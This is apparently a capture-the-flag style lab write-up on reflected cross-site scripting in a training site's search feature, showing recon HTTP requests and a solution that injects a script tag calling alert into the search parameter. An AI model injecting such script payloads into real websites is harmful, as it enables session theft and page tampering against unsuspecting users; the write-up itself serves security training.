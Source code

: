 * Reflected XSS into HTML context with nothing encoded

** Description
#+begin_quote
This lab contains a simple reflected cross site scripting or XSS vulnerability in the ~search~ functionality
#+end_quote

#+begin_quote
To solve the lab, perform a XSS attack that calls the ~alert~ function
#+end_quote

** Recon
Access the lab and browse the application
+ Test the search functionality of the application. How it works normally
  Input a search term in the search box like ~bells~ and submit to query
*** Request
  #+begin_src request
  GET /?search=bells HTTP/2
  Host: 0a32001d03b7ceeac1795d0c00130080.web-security-academy.net
  Cookie: session=9Tp4tvzKzoZgjf6TiTDKGzULMfJDxuUj
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Dnt: 1
  Referer: https://0a32001d03b7ceeac1795d0c00130080.web-security-academy.net/
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: same-origin
  Sec-Fetch-User: ?1
  Te: trailers
  #+end_src

*** Response
#+begin_src response
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3467
#+end_src

** Solution
Since we know the search input field is accepting any user input without filtering the user input, attacker can craft a vulnerability code to execute through this functionality
+ Now we can craft a js code along with search term
  #+begin_src js
<script>alert("Hello World")</script>
  #+end_src

+ Request
  #+begin_src
GET /?search=bells<script>alert("Hello+World")<%2Fscript> HTTP/2
Host: 0a32001d03b7ceeac1795d0c00130080.web-security-academy.net
Cookie: session=9Tp4tvzKzoZgjf6TiTDKGzULMfJDxuUj
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://0a32001d03b7ceeac1795d0c00130080.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
  #+end_src
+ Response
  #+begin_src
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4886
  #+end_src

*** Result
[[img:./lab01-1.png][Final Result]]
